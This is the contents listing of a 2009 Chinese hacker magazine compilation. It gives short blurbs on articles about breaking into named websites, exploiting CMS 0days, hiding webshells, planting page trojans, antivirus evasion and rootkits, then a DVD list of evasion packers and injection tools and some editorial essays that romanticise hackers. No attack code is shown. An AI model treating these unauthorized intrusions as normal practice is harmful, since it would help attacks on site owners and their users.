# 非安全黑客手册合订本2009年③④季第一部分

---

## 282 反渗透国外IDC

反渗透是个很有趣的话题，通过对手遗留下的蛛丝马迹顺藤摸瓜地找到目标后，再通过信息判断和分析，最终顺利渗透目标。本文作者详细地通过自己编写利用脚本来达到目的，大家可以在这方面有意识地积累一些。

## 284 记一次 Serv-U 提权

Serv-U 提权可谓是老生常谈了，由于 Serv-U 的用户多，提权成功率也高，众多 ASP 木马纷纷将此提权功能集成在内。然而通过该次操作我又发现，Serv-U 提权绝不是填好表单、提交命令那么简单，因为很多细节决定着提权的成败。

# 窗外

## 286 Linews

## 287 入侵某防护软件官网加提权

很多人一听到 Linux 服务器，立刻头就大了，不知道从哪里下手。通过本文你一定已经深深意识到了，其实 Linux 服务器只是系统不同罢了，而一些服务上的漏洞利用方法和 Win 下并没有多少区别的，并不是一说起 Linux 服务器就只能渗透掉密码，世界是很宽广的。

# 社会工程学

## 288 当黑客遭遇 FBI

这篇文章与以往的社会工程学文章相比，有一个共同点，那就是漂亮的社工技巧；但也有一个不同点，那就是漂亮的社工技巧被运用到作者身上。要知道，被社工的滋味可不好受，更何况我是学社工的，把这种经历拿出来写成文字可是需要很大勇气的。时隔一年回想起来，仍觉社工之精妙，恍然当初被 FBI。不知也觉得挺幸运的，至少并没有见识到 FBI，不过这事造成的影响也太夸张了，事后我可紧张了好几天的。

# 快码加编

- 编程源起

## 290 从 0 开始学习 Asp.net（四）

在上一节中我们了解了初级的 ADO.NET 技术，这节我们将通过一个用户登录的程序来了解在程序中该如何来应用 ADO.NET。

## 293 汇编实现星号密码查看

我们知道，用户在输入密码的时候都是以星号的方式来显示的，那么所谓的星号密码查看器，就是将用户输入的密码以明文来显示。今天我们就要来了解一下星号密码查看的思路与程序编写！

- 编程上路

## 294 Professional Rootkits 入门笔记 —— A Basic Rootkit（三）

这篇文章是《Professional Rootkits》原书中“A Basic Rootkit”主题的下半部分，在上部分我们讨论了关于一个简单的 Rootkit 程序 Ghost 的编写，这部分我们将讨论如何编写 Rootkit 驱动的加载程序。

## CRACKER

## 296 每月破资源

## 297 软件破解入门系列二 —— 常用的脱壳方法

上一期给大家介绍了一些基础的破解知识，这一期我们就要给大家详解一些基本的脱壳方法。好了，废话不多说，直接进入主题。

## 299 爆破 Hide Window Hotkey 2.5 —— 脱壳、去自校验和破解

本文的最大亮点在如何去掉自校验，这是初学者经常会碰到的坎。去掉自校验的方法有很多，本文只提到其中的一种，当然，不同的校验思路要用不同的方法来处理。在编审本文的时候，遇上了一些小问题，比如作者写完之后并没有检查自己写的这篇文章，这是一个弊端，希望作者能够改正一下。

# 读编互动

## 302 Q&A

## 303 29 号信箱

## 新闻时评

## 305 颠覆杀毒市场，360 强势插入！

## 策划

## 306 功夫熊猫 Hacker 系漫游记 4

记得当初阿宝接触网络时，总是喜欢聊天，电脑只要开着，总会发现在右下角有一个小企鹅。不知道何时，这个企鹅出现的几率比以前少了很多，但偶尔还会出来冒个泡。冒泡的时候也跟以前大不同了，以前总是听到企鹅在叫，现在那个企鹅都成了哑巴，这还是因为阿宝不想让这只企鹅的叫声打搅到自己。

# Q 版黑客

## 310 菜鸟如何判断自己的系统是否安全

这次是我给《黑客手册》第一次投稿，还望多多指正。废话不敢多说，直入主题，如何简单判断自己的系统是否安全呢？

## 310 裸奔，我“快”乐！

“裸奔”指的是不安装杀毒软件而上网浏览的行为，这在木马、病毒满天的现状无疑是十分危险的。

## 312 360 手机安全卫士抢先体验

360 手机卫士目前在内测阶段，因为广大用户的关注，消息不胫而走，也出现不少借此炒作或者别有用心的产品，目前最新版本为 v1.0.0beta2。

## 313 万象+净网先锋+易游网吧系统远控实现与免费上网

# 菜鸟恶补

- 314 U盘启动盘制作与量产 —— 秋风一叶

很久没写文章了，套话不说，直入今天的菜鸟恶补正题——U 盘启动盘制作与量产。

## 黑小说

- 316 夜幕猫来临 IV —— 真相有很多 —— Nobody

当一路狂飙到家的苏茉看见正微笑着等在门口的苏英泽时，真的非常想冲上去抱住他大哭一顿，然后翘起兰花指历数那个可恶的班长的劣迹……

## 新闻练练看

- 318 易想 B2B 系统漏洞分析利用 —— 周志锐
YxB2B 商务网是易想网络旗下的门户型 B2B 行业网站系统，是国内还算比较流行的一款 B2B 系统，本文将带大家分析它的漏洞。程序的漏洞都出现在客户端入站地方，脚本程序漏洞常见的也就是注入和上传了，一些特殊的漏洞还要靠仔细分析代码才可以挖掘得到。

- 320 深入挖掘网购系统漏洞 —— 三爷
最近朋友说要开个网购站点，发来了几套程序让帮忙看下，还说“什么死活也得给他找出几个漏洞来，要不没办法向他交差。”接过程序后就开始在茫茫代码中寻找那一些交差的希望。看了一下，一共有三套系统，都是从官方下的最新版，下面是偶的分析结果与一般过程。

- 325 凤凰网站内容管理系统最新 0day 分析与利用 —— 冯谷、张淼
最新的凤凰网站内容管理系统是 FoosunCMS4.0 sp7 版本，这个漏洞只测试了 asp+access 数据库，mssql 数据库的没测试，可能也存在类似漏洞。

- 326 DeDeCMS 0day 漏洞分析以及浅谈反射型 xss 利用 —— CCOz
DeDeCMS 最近频繁出现漏洞，前两天跨站大神御哥又发现了一个 xss 跨站的 0day，文由我来分析之。御哥找到的 xss 存在于存在 XSS 隐患的搜索页面上，我在本地搭建了一个 WAMP（WindowsXp-sp3，Apache2.0，Mysql5.0.83，PHP5.2.10-win32）环境，下载了一套 5.3 版本的 DeDeCMS 用于测试与分析。

- 328 0Day 发掘技术入门篇之四：weenCompany 0day —— menzhi007
这一篇我们分析的是同素网络旗下的 weenCompany 闻名企业网站系统，其官方网站为 http://www.weentech.com，当前最新版本为 4.0.0。

- 330 CSRF 的硝烟 —— Allen_HW
CSRF，即 Cross Site Request Forgery，直译过来便是跨站请求伪造，国外早在 2000 年就已经提出了这个概念，国内在 2006 年才开始关注 CSRF，2008 年之后 CSRF 开始渐渐在国内火起来了。

- 331 毫不设防之凡诺企业网站系统 —— 4lert[H.S.G]
听朋友说《凡诺企业网站管理系统》是个漏洞大户，于是从网上搞了套 1.2 的免费版，感觉免费版的确诡异，一般都会存在不少的缺陷，结果真的如我猜想一样，而且其安全性令我大失所望！

- 333 对阿赛企业网站系统 V2 的漏洞分析 —— cnryan
今天到 codepub 下载了一套叫“阿赛企业网站系统 V2”的 ASP 程序，大小还不到 1m，检查了它的安全性，从本文可以了解到阿赛企业网站系统 V2 的漏洞分析。

- 335 0Day 发掘技术入门篇之三 —— 实例发掘深喉 SHLCMS Ver3.8 正式版 0Day —— menzhi007 [安天365]

## 西线无战事

- 336 直捣黄龙 —— 杀入内部网络 —— 赤龙
本文是域内网渗透的经典流程，大家可细心阅读一下。

- 340 艰难渗透某交友网 —— 赤龙

- 343 一次由投票引发的网站入侵完整过程 —— 藏形匿影
一次 QQ 上的 MM 好友发来一个链接，叫我帮忙投下票。在进行了几次投票后，系统提示达到了今天投票的次数，不能再继续进行投票。于是我就产生了邪恶的想法，何不 XX 了它。

- 344 另类打造 session 隐蔽型后门 —— Cnshell
关于 Session 的具体原理、运行机制，有兴趣的朋友们请自行百度，基于本文不涉及太深，我会把概念知识尽可能简单地写出来。

- 345 同学网跨站测试 —— 无生

- 346 友情检测中国校园服务网 —— 啊冰【岁月联盟】

- 348 记一次非主流拿 webshell —— 飞鸟游鱼
一天朋友发了一个站给我，问我能不能拿到 webshell。我看了一下，是一个企业站，一般企业站都很好拿，所以就毫不犹豫地答应了，后来却费了一番功夫才拿到。好了，我们进入正题。

- 349 利用 SSH 服务突破业务堡垒主机的统一入口限制 —— 黄超毅 demonalex
随着经济全球化进程的日益加剧，国内的上市公司企业数量也与日俱增，SOX（萨班斯）法案也随之成为各大企业与机构的主要内审依据之一。为了有效实现 SOX 法案中针对 IT 审计的技术支撑手段，本文会从厂家架构推出了自己的 4A 解决方案。从一开始的旁路审计系统，到后来构建业务堡垒主机、综合审计平台等等，且各自具备特殊亮点。

# 高手专栏

- 350 挂马的两个新方法 —— lcx
这里只做技术讨论，请不要用本文所述方法做非法危害之事。关于挂马，基本上是在网页原来的代码里加载一个 iframe，我以前的文章写过几种加载方法，这篇文章里再提两个新方法。

- 351 SQL 查询优先级对注入的影响及利用 —— 无名小卒
本文深入研究了一下 mssql 注入的几个技巧。本文献给所有好学的朋友。先建立实验环境，并将几个对注入攻击比较重要的优先级关系搞清楚。

# 窗外

- 352 Linews

- 353 Ubuntu 使用谈 —— 狂枫
ubuntu 之所以流行，跟它的包管理有一定的关系。它通过源安装软件的方法是非常方便的，只要知道软件名，就可以使用 apt-get 或者 aptitude 新德里软件包管理器来安装。先介绍 apt-get 的使用，比如说，我要安装 stardict（星际译王），只要输入以下命令即可：

# 快码加编

- 编程源起

- 355 inline 函数，让你的程序奔跑！ —— 梁嘉
这篇文章主要写 inline 函数对程序的影响，对于暴力破解等重复工作量比较大的程序有较好的效果。

- 356 轻松统计软件安装情况 —— fish
从本文您可以学到：1，了解已安装软件在注册表中的位置；2，编程实现获取已安装软件列表；3，将列表导入 EXCEL 统一管理。

- 358 飞话 —— 藏在 WAP 下的安全隐患 —— 白开
从本文您可以学到：1，分析飞话漏洞的原理；2，利用 PHP 进行弱口令的猜解。

- 编程上路

- 359 ASP.NET Web BackDoor 编写原理 —— 梦幻☆剑客
从本文您可以学到：1、了解 C# 的简单语法；2、使用各种技巧在 C# 的基础上进行开发。

# 黑客免杀

- 364 免杀 API 函数过诺顿 —— 许建轩
- 从本文你可以学习到：如何改动 API 函数过诺顿。

# 社会工程学

- 367 记一次社会工程学渗透 —— 溪亭残月|怀磊
- 从本文可以看到一次基本的社工过程

## CRACKER

- 370 菜鸟逆向需注意脚本程序带来的误区 —— Reudta
- 从本文你可以学习到：AutoIt 脚本程序的一个误区。

- 372 “毒”害其身，对流氓软件的爆破修改 —— obaby
- 从本文你可以学习到：1、如何追码；2、如何修改程序的代码达到需要的目的。

# 读编互动

- 375 Q&A —— 徐师傅
- 375 29号信箱

## 新闻时评

- 378 Google 危机，微软黑手？

## 策划

- 379 功夫熊猫 Hacker 系漫游记 5 —— access 手工注入 + 后台获取 webshell —— 赤龙
时光飞逝，不知不觉五个月的时间已经过去了……回想熊猫们从刻苦钻研的菜鸟黑客，走过来还是挺不容易的。从那炎热的夏天到如今的寒冬，阿宝从来没有放弃过学习，那份对技术追求的执着，那种未知的欲望，鞭策着他不停地前进……

# Q 版黑客

- 386 iphone/ipod 完美越狱 —— 风逝水
- 388 另类虚拟机 —— Windows XP Mode —— 痛并快乐着
- 389 Windows 7 的特殊权限 —— 蜀国布衣
- 390 防止网站挂马的实用技术之三 —— 爱梅小礼·菜客
- 392 SID 漏洞 —— TX，你封彻底了吗！ —— Fredom
- 393 阅后即焚术 —— 牟晓东

在网上流传着两种破解 iphone 系统限制的方式，一种是用程序破解系统限制；另一种就是自刷固件。不论是哪种方法，目的都是一个：打开系统 Root 最高权限，以取得对系统目录的访问和修改，同时支持运行破解软件。

在 Windows 7 的旗舰版或专业版中，微软推出了一个很特别的增强模块，即 Windows XP Mode。微软声称这是一个为了增强 Windows 7 兼容性而特别开发出来的全新功能，它能让 Windows XP 下的老程序通过虚拟技术直接运行在 Windows 7 的桌面上。

Windows 7 已经正式推出一段时间了，而微软公司则一直宣称其安全性非常高，其实通过笔者的观察分析，Windows 7 的安全性之所以非常的高，主要是因为系统采用了特殊的用户权限。那么到底是怎样一种用户权限呢？今天笔者就继续给大家说道说道……

从本文继续学习如何防止网站被挂马。

谁都难免有小秘密，但在网络如此发达的今天，即使与 QQ 好友私聊也不是安全的（有聊天记录可查），更何况是邮箱了。不过，如果你确实想与好友说几句很私人的话（比如向女友表白），那倒也不用发愁，因为我们可以使用“阅后即焚术”。

- 393 JAVA 游戏小修改 —— 宋宇明
- 394 浅谈恶意程序行为分析 —— 天翼
- 396 由蹭校内软件所引发的盗号问题 —— ETY001
- 397 EXE 转 bat 文件的解析 —— 黑手 ALL

# 菜鸟恶补

- 398 U 盘系统盘强化篇 —— Kay4
看了上期某同志写的《U 盘启动盘制作与量产》，我觉得模式太多，软件太多，而且那位同志如果研究进去了，或者像我一样有十几二十个 U 盘，他就会明白：固件、芯片，这两个概念对于做这个 U 盘启动盘的难度了。

## 黑小说

- 399 夜幕猫来临 V —— 至此，谁也不知道结局 —— Nobody
- 401 Journey 旅行 —— 风逝水
- 403 爱，没有尽头 —— 李德芹

离开他们后，徐洛问夏影为什么没有留下来，她静静地说：“cat、C-A-T、Cheryl at tanghe。她告诉世界，她就在据东高中，是向找她的人示威还是想向谁求助呢？”

我总是游走在网络，因为人类发明的这个互联网，连接了世界各地的计算机，而计算机的增多，也给我活动的空间，又多划出了一大片天地。

## 新闻练练看

- 404 发掘开心网 XSRF 漏洞实现简易 Ajax 蠕虫 —— Zetifree／易逝’泊
- 406 E-doo 音乐系统 0DAY 分析与利用 —— rabbitsafe
程序对 http_referer 值和 ip 地址都没有过滤，这些参数都是可以构造的。由于他对漏洞分析得过于简单，朋友建议我把详细的漏洞分析与利用方法给大家讲一讲……

- 408 F2blog Blind SQL Injection 0Day —— menzhi007
- 410 新云 CMS4.0 系统漏洞利用 —— ykhack
最近从网上看到了关于新云 CMS4.0 的漏洞，严格的说，也不算是什么漏洞，只是新云默认的数据库文件 asa 没有做任何安全处理。

- 410 CreatLive CMS 4.2 注入漏洞分析 —— 朝阳

## 西线无战事

- 412 IIS 文件解析漏洞助我轻松拿下报价服务网 —— rabbitsafe
这是一个专门提供各种 IT 产品报价的网站，有二手中心、下载中心、论坛和新闻中心等模块。首先看看论坛，用的是动网最新版 8.2，默认数据库和管理后台都改了，没有利用的地方。接着又看了看其它几个模块，好像有方法入系统，试了试 cookie 注入，也没有。

- 413 拥有自己的 Linux 肉鸡 —— spiderz
本文从 web 漏洞到 webshell，再反弹 shell 下载代码，进而溢出提权，最后添加 linux 用户完全控制主机。

- 415 超简单入侵“XX 盛世”主机代理平台 —— ykhack
大家都知道“XX 盛世”是一个提供主机代理的平台，今天我就给大家介绍一下怎么入侵它的代理平台。其实方法很简单，就是下载数据库！

- 415 对 XX 大学城市学院主站的一次友情检测 —— S4r4d0【S.S.M】
文章技术含量不高，仅供比较迷茫的菜鸟参考！

- 417 迂回战术在渗透中的应用 —— 马军
- 419 用搜索型注入点实现了第一次定向入侵 —— ETY001

# 高手专栏

- 421 入侵之后 —— shell 的隐藏 —— Lescper
在检测网站成功进入 shell 后，我们通常都要加固一下 shell，即使是通过软件自动扫描获得的，也要保护我们的劳动成果。今天，我们就来总结下保护 shell 的方法。

- 422 自动挂马的小方法 —— lcx
- 423 一些入侵中你不得不考虑到的与 IP 地址有关的问题 —— 南拳爸爸

# 窗外

- 424 Linews
- 425 Ubuntu 上搭建 VPN 服务器
在 Ubuntu 上搭建 VPN 服务器的方法还是比较多的，但是 PPTP 是最简单的一种方式，而且由于 Windows/Mac 系统中都内建有相应的客户端，所以使用起来非常方便。

- 427 利用 IPFilter 对 Solaris 进行安全加固 —— 黄超毅 / demonalex
从本文您可以学到如何在不中断服务的情况下配置 IPFilter。

# 快码加编

## 编程源起

- 428 VB 简单编写实现手机控制电脑 —— SRat
闲来无事，试着在手机 WAP 浏览器中输入我的外网 IP，结果发现我的防火墙报警了……

- 429 风讯 4.0 漏洞发现与利用工具的编写 —— 逍遥叹
从本文您可以了解漏洞原理及方法和利用程序实现漏洞利用工具。

- 430 解密网游木马开发全记录 —— WM_GETTEXT 获取对方密码 —— 鬼谷先生@H4CK.CN
为了揭露网游盗号的基本原理，我给大家演示黑客是如何通过编程实现密码的截取与发送的。

- 432 编写 MD5Decoder —— ccoz

## 编程上路

- 434 病毒扫描工具的简易制作 —— 爱梅小礼·菜客
今天我们不但要定义自己的病毒库，而且要做自己的“杀软”，很刺激吧？

- 436 Professional Rootkits 入门笔记 —— Kernel Hooks（上） —— wolfSea 黄铨雍
本文源于 Ric Vieler 著作《Professional Rootkits》的第 3 章 Kernel Hooks，本文的目的是将引导实现一个 kernel hook（内核钩子）。

# 黑客免杀

- 438 手工打造天衣无缝的捆绑器 —— 無泪黑客
在 9 月份的“黑手”中，“永不被杀的捆绑器”一文引起了我的注意。我按照文中所示进行操作……

## CRACKER

- 440 每月破资源 —— 10086
- 441 软件破解入门系列三 —— 基础知识和软件爆破 —— missviola【O.S.T】
前面两课的内容不知道大家掌握了没有，从这一期开始，我们就要正式讲解软件破解的方法了，一定要先掌握好前面所讲的基础知识哦。

- 444 Win32/AutoRun.Agent.NZ 蠕虫感染文件的简单分析和文件修复 —— obaby

# 读编互动

- 446 Q&A —— 徐师傅
- 447 29号信箱
- 448 宣传社

## DVD目录

非安全·黑客手册 2009 年③④季合订本 DVD 光盘目录

### 推荐
- 2010 黑客工具包
- ASP.NET 高级教程
- 黑客入门新手工具包
- 黑客常用小程序杂锦
- Google Chrome OS 系统镜像
- 黑客手册 09 年 6—12 文章相关工具
- 推荐音乐：棉花糖——《小飞行》
- 经典黑客电影：《黑客帝国》前传《仪器》
- 谷歌应用引擎 (Google App Engine) 视频教程
- 国外超强注入工具：Cfm Private SQL injection

### 杀不死的秘密工具包

#### 相关录像
- 6.3 节 myccl 定位语言教程
- 8.1 节 pcmain.dll 过卡巴测试
- 8.1 节 pcshare 过卡巴测试

#### 相关工具
- 010 Editor 2.1.1
- eXeScope
- FreeRes
- ha_peditor_1.7
- ImportREC_fix
- LordPE
- PEiD 0.94
- PE 头信息清除器
- ResHacker
- resource 2.6 rc2
- ResScope-v1.94
- Restorator 2007
- UltraEdit-32
- WinHex
- PE 文件附加数据读写专家 2006
- Zeroaadd
- Tmdunpacker
- VMUnpacker
- multiCCL_f
- MyCCL 复合特征码定位 v2.1 加强稳定版
- NOD32 特征码转换器
- OC
- 特征码修改定位器（国外版）
- ASP 代码加密大师
- ASP 加密最终 4.0
- ASP 木马加密免杀 GUI
- HTM 混淆免杀器
- Javascript 变形工具

#### WebShell 免杀工具
- 黑色靓点网页加密器
- Asp 反编工具.exe
- phpencode.exe
- unescape.exe
- 火狐 ASP 加密解密工具.exe
- 蓝星网页加解密专家.exe

#### 加壳与免杀工具
- ASPack
- ExEinfoPE-v0.0.1.7d
- ExeStealth275a
- PELock 1.06
- PPC
- svkp1.43a
- Themida
- UPX
- VM v1.55
- VMProtect V1.21 XiaoSD
- 超级加花器 1.6
- ASProtect 2.3.6.26 Modified.exe
- Hying's PE-Armor 0.75.exe
- MaskPE.exe
- NsPack 3.7.exe
- 花指令伪装器.exe
- SuperPacker.exe

#### 注入与调试工具
- [DST] 暗组 DLL 注入 (vipver)
- C32Asm
- FlexHEX
- InstDrv
- OllyICE

### 手册必备工具
- WinRAR Beta SC Portable
- PDF+PDG+WDL 三合一阅读器
- CSF 文件播放器
- WinRAR 3.71 GUI
- 3389 系列工具
- Domain3
- DTools
- HDSI
- NC
- OllyICE
- Pangolin 穿山甲
- SQL 综合利用工具
- 暴风影音
- 冰刃.zip
- 老兵的 cookies 修改工具

### 娱乐黑客
- 经典黑客电影：《仪器》
- 棉花糖——《小飞行》专辑
  - 01. 小飞行
  - 02. 陪你到世界的终结
  - 03. 我们都一样
  - 04. 一朵微苔
  - 05. 女孩
  - 06. 请帮我爱他
  - 07. B612
  - 08. 遍地开花
  - 09. 欠一个勇敢
  - 10. 未来
  - 11. 2375

## 工具仓库
- 国外超级注入工具 Cfm Private SQL Injection
- 系统专用全免 PHP 小马
- 黑客常用小程序集锦
- 2010 黑客工具包
- [谷歌操作系统].ChromiumBuild
- 网站监控系统
- Opera@USB v10.10 正式版
- Webuilder 2010 v10.1.0.119 绿色便携版
- Nsasoft Product Key Explorer v2.3.0.0 绿色特别版
- directx--show 漏洞利用工具
- 黑客入门新手工具包
- 沙盘 Sandboxie v3.42 特别版
- WinCHM V3.615
- 流量之眼（FluxEye）v2.02
- 硬件精灵 (Unknown Device Identifier) v7.00

## 视频教程
- 谷歌应用引擎 (Google App Engine) 视频教程
- [谷歌应用引擎 (Google App Engine) 视频教程].01 - 15

## ASP.NET 高级教程
- ASP.NET.L1 概述 1 & 2
- ASP.NET.L2 内置对象 1 & 2
- ASP.NET.L4 作业
- ASP.NET.L6 跟踪与调试
- ASP.NET.L6 验证控件
- ASP.NET.L7 分页控件
- ASP.NET.L8 自定义分页
- ASP.NET.L8 自定义分页 SQL 语句
- [软件开发核心编程].ASP.NET L3_1 - L3_3
- [软件开发核心编程].ASP.NET L4 & L4_1
- [软件开发核心编程].ASP.NET L5, L5_1, L5_2

## 其他视频教程
- 大虾教你配置黑客工具
- 黑客入侵前的准备和防范方法
- 3322 域名方法配置灰鸽子服务端
- guest 帐户隐藏方法
- MySQL 数据库系列动画之攻防篇
- X_SCAN 的使用以及端口常识
- 把网吧的高清电影全部带回家
- 菜鸟迅速学会 RAR 高级捆绑术
- 教菜鸟玩转并解锁注册表
- 教你给软件加试用期限和注册码
- 禁止好友印象评价 + 绕过问题加好友
- 利用 2967 端口的漏洞抓鸡
- 手动检测注入点的步骤
- 网吧破解全部通杀达到免费上网
- 虚拟机演示放大镜后门使用
- 有效的反 QQ 签名技巧
- ARP 欺骗的介绍和实战分析
- 入侵必会之 Linux 密码破解
- 不提权限样拿虚拟机指定站
- 服务器高级安全配置 + 2 种防范方法
- 详解网吧各种还原方法
- 跨站入侵黑客网站
- 新手学习黑客技术的方法
- 当脚本黑客技术思路与方法
- 溢出入侵系列教程
- 通过嗅探来获取主机用户登录信息
- 零起点教程之 RAR 高级捆绑技术
- 网站入侵和网站维护的基础教程
- 网马的运行原理与防御
- 保护 ADSL 账号密码安全方法
- 详细讲解一步步找漏洞
- 建自己的站体验 ASP 后门乐趣
- 入侵黑客培训网站动画教程
- 变相的网众入侵网吧主机

## 黑客手册下半年相关文章工具

### 9月
- rouji—工具.zip
- 网易新浪等大站 XSS 集合.ZIP
- cra—软件破解奇巧
- cra—双管齐下之 SimplePack 脱壳
- cra—网页木马拦截精灵 v1.95
- kmjb—bcsl Professional Rootkits 入门笔记
- kmjb—bcsl 基于套接字阻塞模式的远程控制软件
- kmjb—bcyq 从 0 开始学习 asp.net
- kmjb—bcyq 关于 U 盘恢复精灵的一些改进的补充
- kmjb—bcyq 简简单单做数据备份还原
- kmjb 编写千橡开心农场外挂
- kmjb 千橡开心农场之 Autoit 批量处理
- kmjb 千橡开心农场之 VB 鼠标点击器
- linux—利用 iptables 与 snort 构建入侵检测系统
- ms—让 multiCCL 自动定位功能过 NOD32
- q—ASPX 木马后起之秀
- q—防止网站挂马的使用技术之二
- xx—COOKIES 注入详解
- xx—HBcms 宏博内容管理系统 0Day
- xx—MvMmall 网店系统 v5.5.1 漏洞分析
- xx—nagios 命令注入漏洞渗透
- xx—Ok3w 新闻发布系统漏洞分析
- xx—对一大型学校商业 cms 的安全性分析
- xx—检测 Vmall 1.2 商城系统 video
- xx—日拿 1000 Webshell
- xx—渗透某学校网站笔记
- xx—亚阳影视系统 0day 分析与利用 pangolin_bin
- zt—熊猫相关工具和代码

#### Cracker 工具包
- ASPack v2.2
- Delphi and C++ Builder Decompiler v3.42
- FileMonitor V7.04
- IDA Pro 5.4 中文帮助手册
- IDA Pro Disassembler 5.4
- Immunity Debugger v1.73
- Reflector
- RegSnap v6.1.1955 绿色版
- SoftSnoop 2009 V0.1
- 破解帮助手册
- DiE 0.64
- Import Reconstructor v1.6 FINAL
- OllyDBG 汉化第三版
- PEiD 0.94 加强版
- Restorator
- Language 2000
- AAP 1.0
- MemoryInjector

#### 其它文章相关
- vif: IISUSER_VIF_BUILD (4.1.9), MYIIS-VIF 软件介绍.pdf
- PS 高手照片处理软件.zip
- bcsl02 菜菜也谈 Windows 进程管理
- bcsl03 基于套接字阻塞模式的远程控制软件
- bcyq01 反弹木马编写之 FTP 更新
- bcyq02 化繁为简进入注册表
- bcyq04 汉字密码为 web 安全保驾护航
- bcys03 VB 编写校内自动留言机终结篇
- cra02 手脱 eXPressor 并寻找失落的 IAT 函数程序
- cra03 小破“极品私人密盘”工具程序
- qban02 手把手教你配置 WVS 6.0
- qban07 百度空间炸弹（丹若鼠标自动点击器 1.7）
- xd00 DZ 7.0 最新 0DAY 后门曝光 (ASP+PHP 两用 Shell)
- xd01 浅析 PHP+MySQL 注入原理及其逐步深入利用
- xd03 gcms 0Day 发掘技术入门篇
- xd04 phpweb 0Day 发掘技术入门篇 2
- xd06 在 magic_quotes_gpc=off 下绕过两种函数
- xd07 击垮校园店小二 Shop

## 写在前面

瞬间毁灭并被新生力量所产生的思潮所代替（而且最可悲的是，新生的文化思潮往往没有经过任何验证和研磨）。最终，原始的三个志同道合的人也就顺理成章地成了“传说中的他们”，而真正利于发展的，他们曾经握持着的文化也随之而去。

所以，重中之重在于让正确的人领导正确的团队在新文化道路上稳步前行。这样一来，只需要听任碰撞创造新文化，并将其不断融合到现有文化之中，就可以顺利地走上文化的传播、沉淀和发展的正轨。

说到这里我们不难看出，对我们来说，文化是要从我们身上索取一些东西，然后沉淀到它的身体里才形成的。因此，如果文化不能顺从人性、不能顺从个人或团队意志的话，是难以持久，甚至是不可能形成的。同时，也正是这样的原因，文化并不具备足够的行为推动力来推动我们做什么。另外，因其顺从人性，所以文化虽然能沉淀并指引他人，却缺乏足够的指向性，甚至更多的时候仅仅因人性和意志相似而被人们所接受。这样缺乏对团队行进轨道的规划和限定，难以指引向正确的方向。

因此在文化逐步形成之后，我们需要一股更为强大的力量去融合它以保证它不会死去。这股力量中，不但有着强大的驱动力，更有为我们指路的明灯，而文化的发展和最终去向，也需依靠它来指引。

但更为重要的是，明灯并非灯……

有的明灯过于高远，给人画饼充饥的感觉，最终被逼得只能低头在路上寻找残食，慢慢失去了方向；而有的明灯却在人们的头上，人们顶灯度日，天天自感志存高远，却只能靠头上的一点灯光照亮眼前寸光之地；而智者的明灯并没有什么不同，只是，它需要一个引路人手持明灯在人们前方；当人们劳累困顿的时候，明灯悬于头上，当人们斗志昂扬之时，明灯照在前方……

其实说到底，我们需要的不是一个简单的榜样，更不是一本千年不变的教材，在更多的时候，我们只需要自问：我们的意志是什么？我们的明灯又在哪里？

作为黑客，你的意志是什么？你的明灯又由谁掌舵呢？

## 小编代表四周年寄语

### 黑裤子

“NOHACK，非安全，黑客手册”，这几个频繁闪现在杂志封面、光盘界面和网站BANNER的字眼，我想会让初读杂志的朋友大吃一惊摸不着头脑。

什么杂志需要挂这么多头衔抛头露面活跃于黑客文化媒体之间？
什么新兴传播需要不定期为自己的重点刊名轮回更换？
什么刊物会在包装尺寸和设计上来回变换创新？
……

这种种表面的不定性附在内容以“培育黑客入门技术，引发黑客新兴思维”的灵魂基石上，充分体现了NOHACK创作者骨子里的叛逆创新精神和坚守原则的品格。

传说“4”这一阿拉伯数字代表的意义正是“崭新时代的叛逆者”，时值四周年之际，NOHACK再度抛却墨守成规，发扬创意本色，精心策划推出四周年双月纪念刊，以飨读者！这个暑假不再雷同！

### Cass:

4月，是孕育的季节；是万物繁衍的始初。2005年4月，《非安全·黑客手册》择时孕育而生，以“悬壶救世”为己任，奔行于网络各界，辛勤传播“网界”生存之道。

自《非安全》创建以来，受到“网界”各族的热烈追捧与拥护，即刻被推封至“大陆”级别。《非安全》旗下各部更是辛勤工作，恪守严谨，唯恐为“大虾”二字而抹黑！

出事无大过，尤其是“网界”的黑暗势力不断的入侵和搅扰，为整个“网界”带来了不少损失。06年的“熊猫”大军入侵席卷全界，攻势凶猛至极，《非安全》与“网界”各族形成统一战线，共同抵御入侵，为“网界”的安宁做出了不可磨灭的贡献。当然，“网界”中人除了这些“军事”事件，各类娱乐事件亦是层出不穷，“600大腕电话曝光事件”、“陈GX的图片事件”等等，让“网界”中人啼笑皆非啊。

如今《非安全》四岁了，四年来那些陪伴《非安全》同乐共苦的“大虾”、“小菜”们，你们还好吗？那些为《非安全》默默付出的“黑手团”、“版猪”们，你们辛苦了！《非安全》有了你们的陪护才能逐渐成长，才有了今天的挥洒身姿。虽然有些话是俗不可耐，但是在这里，我就再大众一次吧，代表《非安全》说一声“朋友们，谢谢侬”。

朋友们，我们的前途是光明滴，道路是崎岖滴，形势是严峻滴，相逢是快乐滴，希望我们能一如既往携手《非安全》，踢着正步，向那太阳升起的地方，前进，前进，前进！

### 冰的原点：

《黑客手册》一路走来，离不开大家的支持和鼓励，它就像一个婴儿一样在慢慢地长大。而跟随着“黑手”一路走来的读者们，你还是当年那个年少的青年吗？当年经历着“中美黑客战”的你，还在追求着你心中的那个信仰吗？当商业化越演越烈的时候，你心中的那片天空还是那么纯净吗？经历了多少岁月的你再回头看，《黑客手册》还是《黑客手册》，但，你还是你吗？是感伤还是彷徨，抑或是激情、感动？其实都只在于你。

是你自己掌握着自己：向前，那是一片自己的天空；向后，那是一条自己走过的路。不管曾经的你、现在的你、还是以后的你，但愿《黑客手册》在你成长的路上给你带来乐观和激情，就像今年的夏天一样——那样的火。

### 猪哥靓：

有人认为，“网络等于黑客”；也有人认为，“犯罪等于黑客”……每个人心中的黑客都不一样。其实黑客不应只限于电脑、编程、入侵等，黑客的概念应该能自然地扩展，完全可以达到艺术创作的领域。

从某种角度来说，黑客是理想主义者的代名词。黑客追求理想，提示在信息时代里人人应该是平等的。如果硬要把黑客归入一个范畴，这在某种程度上来看并不是容易的事情。黑客是菜鸟心中的偶像，无论你是否承认，每个在网上冲浪的菜鸟内心深处都向往黑客的生活，渴望拥有黑客的超人本领，在他们心目中，黑客无疑就是那些仗义豪侠的化身，有求必应。

黑客——高贵的剑手，他们是信息领域的精神贵族，他们高傲地冷眼斜睨那些自诩固若金汤的大公司计算机系统，轻轻一剑就击溃了对方所有的防线，不再回头看一眼，寂寞地离去，继续寻找下一个对手……

